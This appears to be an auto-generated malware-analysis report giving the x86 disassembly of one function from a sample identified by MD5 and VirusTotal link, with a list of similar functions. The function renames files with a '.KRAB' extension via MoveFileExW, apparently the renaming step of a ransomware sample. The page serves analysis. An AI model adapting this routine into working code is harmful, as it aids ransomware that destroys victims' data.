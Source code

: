 ```yaml
---
layout: post
title:  "fcn.0040764a @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-08-30 15:52:19 +0300
categories: report
---
```


# Generic Information
- **Function:** fcn.0040764a
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.00457d24][similar_1_ref] (sim.: 0.9283717492558332)
2. [fcn.00408cff][similar_2_ref] (sim.: 0.9274536058198412)
3. [fcn.00408ec1][similar_3_ref] (sim.: 0.9242965548330405)
4. [fcn.0040641d][similar_4_ref] (sim.: 0.9226939410648485)
5. [fcn.00405242][similar_5_ref] (sim.: 0.9224661068241594)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x38
mov eax,dword[0x423304]
push ebx
push esi
xor ebx,ebx
mov dword[ebp-8],edx
mov esi,ecx
push edi
mov edi,ebx
test eax,eax
je 0x407673
push eax
call dword[sym.imp.KERNEL32.dll_lstrlenW]
lea edi,[eax*2+2]
push esi
call dword[sym.imp.KERNEL32.dll_lstrlenW]
add eax,edi
lea ecx,[eax*2+0x18]
call fcn.00408cd4
mov edi,eax
test edi,edi
je 0x4077ad
mov eax,dword[0x423304]
test eax,eax
jne 0x4076ad
push esi
push str._s.KRAB
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0xc
jmp 0x4076be
push eax
push esi
push str._s_s
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0x10
mov ecx,esi
call fcn.004074e1
test eax,eax
jne 0x4077a4
mov ecx,esi
call fcn.004071ba
test eax,eax
jne 0x4077a1
mov eax,dword[ebp-8]
cmp dword[eax+0x20],2
jb 0x4077a1
mov ecx,esi
call fcn.00407410
xor ecx,ecx
xor edx,edx
inc ecx
test eax,eax
cmovne ecx,edx
mov dword[ebp-4],ecx
cmp dword[0x423310],edx
jne 0x407775
push 0x6e
pop eax
push 0x74
mov word[ebp-0x38],ax
pop eax
push 0x64
pop ecx
push 0x6c
pop edx
mov word[ebp-0x36],ax
push 0x2e
pop eax
mov word[ebp-0x2e],ax
xor eax,eax
mov dword[ebp-0x26],eax
lea eax,[ebp-0x38]
push eax
mov word[ebp-0x34],cx
mov word[ebp-0x32],dx
mov word[ebp-0x30],dx
mov word[ebp-0x2c],cx
mov word[ebp-0x2a],dx
mov word[ebp-0x28],dx
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
test eax,eax
je 0x407772
movdqa xmm0,xmmword[0x41a890]
lea ecx,[ebp-0x20]
push ecx
push eax
movdqu xmmword[ebp-0x20],xmm0
mov dword[ebp-0x10],0x656c6946
mov byte[ebp-0xc],bl
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov dword[0x423310],eax
mov ecx,dword[ebp-4]
mov edx,dword[ebp+8]
lea eax,[ebp-4]
push eax
push dword[ebp-8]
mov dword[ebp-4],ebx
push ecx
push ecx
mov ecx,esi
call fcn.00401261
add esp,0x10
test eax,eax
je 0x4077a1
cmp dword[ebp-4],ebx
je 0x4077a1
push 1
push edi
push esi
call dword[sym.imp.KERNEL32.dll_MoveFileExW]
xor ebx,ebx
inc ebx
mov ecx,edi
call fcn.00408ce5
mov eax,ebx
pop edi
pop esi
pop ebx
mov esp,ebp
pop ebp
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.00457d24@d96761eb00d2d97e2b6f5ffffed0b46a
[similar_2_ref]: /report/fcn.00408cff@470263fe7e7cc115b95cd041d643e3b5
[similar_3_ref]: /report/fcn.00408ec1@470263fe7e7cc115b95cd041d643e3b5
[similar_4_ref]: /report/fcn.0040641d@470263fe7e7cc115b95cd041d643e3b5
[similar_5_ref]: /report/fcn.00405242@73677cb40830e94fbfb5483ff33e40b9
[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5